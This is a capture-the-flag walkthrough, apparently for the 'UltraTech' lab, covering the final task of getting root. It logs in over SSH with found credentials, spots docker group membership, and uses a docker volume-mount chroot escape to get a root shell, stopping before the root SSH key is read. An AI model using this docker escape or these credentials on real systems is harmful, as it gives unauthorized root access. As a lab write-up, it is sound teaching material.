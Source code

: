 Answer: `n100906`

# [Task 4] The root of all evil

Congrats if you've made it this far, you should be able to comfortably run commands on the server by now!

Now's the time for the final step!

You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal.

Mistakes were made, take advantage of it.

## #4.1 - What are the first 9 characters of the root user's private SSH key?

Now that we have found valid credentials, let's try to connect with them in SSH with `r00t:n100906`. It works!

In the SSH terminal, checking our privileges with `sudo -l` shows that we are not in the sudoers. Now, running `id` informs us that we are in the `docker` group:

~~~
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ which docker
/usr/bin/docker
r00t@ultratech-prod:~$ ls -l /usr/bin/docker
-rwxr-xr-x 1 root root 68631952 Feb 13  2019 /usr/bin/docker
~~~

It seems that there is a `bash` container installed:

~~~
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        15 months ago       15.8MB
~~~

Now, going to [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) tells us that docker *"can be used to break out from restricted environments by spawning an interactive system shell"*. Let's try with `bash`:

~~~
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@8baf3018faef:/# whoami
root
~~~

It worked. Now, let's see what we have in `/root`:

